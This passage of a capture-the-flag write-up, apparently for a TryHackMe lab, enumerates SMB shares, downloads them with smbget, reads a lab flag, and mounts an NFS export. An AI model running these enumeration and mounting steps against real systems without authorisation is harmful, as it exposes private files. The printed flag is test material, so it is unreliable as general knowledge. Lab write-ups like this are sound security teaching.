 ```text
        fr--r--r--               48 Tue Feb  2 09:21:18 2021    data.txt
        fr--r--r--              190 Tue Feb  2 09:27:33 2021    business-req.txt
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

We see a couple of folders with files in them. Let's use smbget to download them all at once:

```text
┌──(root💀kali)-[~/thm/internal]
└─# smbget -R smb://internal.thm/shares
Password for [root] connecting to //shares/internal.thm: 
Using workgroup WORKGROUP, user root
smb://internal.thm/shares/temp/services.txt
smb://internal.thm/shares/data/data.txt
smb://internal.thm/shares/data/business-req.txt
Downloaded 276b in 1 seconds
```

Let's see what we have, first the services text file:

```text
┌──(root💀kali)-[~/thm/internal]
└─# cat temp/services.txt                   
THM{0a09d51e488f5fa105d8d866a497440a}
```

We have our first flag. Let's have a look at the other files:

```text
┌──(root💀kali)-[~/thm/internal]
└─# cat data/data.txt 
Purge regularly data that is not needed anymore

┌──(root💀kali)-[~/thm/internal]
└─# cat data/business-req.txt 
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

## NFS

Ok. Those are not as interesting. We also have NFS on port 2049, let's have a look at that one:

```text
┌──(root💀kali)-[~/thm/internal]
└─# showmount -e internal.thm          
Export list for internal.thm:
/opt/conf *
```

We have an NFS export available, let's mount it and see what's inside:

```text
┌──(root💀kali)-[~/thm/internal]
└─# cd /tmp

┌──(root💀kali)-[/tmp]
└─# mkdir pencer

┌──(root💀kali)-[/tmp]
└─# mount -t nfs internal.thm:/opt/conf pencer

┌──(root💀kali)-[/tmp]
└─# cd pencer

┌──(root💀kali)-[/tmp/pencer]
└─# ls -lsa
```